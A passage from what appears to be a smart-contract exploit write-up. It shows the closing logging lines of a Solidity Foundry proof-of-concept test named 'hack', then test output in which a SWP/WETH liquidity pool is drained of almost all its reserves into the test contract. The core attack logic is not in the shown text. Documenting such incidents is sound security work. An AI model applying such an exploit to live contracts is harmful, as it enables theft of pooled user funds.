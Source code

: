 ```solidity
            token0,
            18
        );
        emit log_named_decimal_uint(
            "[after] token1(WETH) getReserves in pool",
            token1,
            18
        );

        emit log_named_decimal_uint(
            "Now, i have SWP: ",
            SWP_Token.balanceOf(address(this)),
            18
        );
        emit log_named_decimal_uint(
            "Now, i have WETH: ",
            WETH.balanceOf(address(this)),
            18
        );
    }
}


```

输出:

```
Running 1 test for test/hack.t.sol:Hack
[PASS] testPoc() (gas: 131472)
Logs:
  [before] token0(SWP_Token) form getReserves in pool: 147580.970131255838890994
  [before] token1(WETH) getReserves in pool: 131.642780241915502488
  [after] token0(SWP_Token) form getReserves in pool: 1475.809701312558388910
  [after] token1(WETH) getReserves in pool: 131.642780241915502498
  [after] token0(SWP_Token) form getReserves in pool: 1475.809701312558388920
  [after] token1(WETH) getReserves in pool: 1.316427802419155025
  Now, i have SWP: : 146105.160429943280502074
  Now, i have WETH: : 130.326352439496347563
```

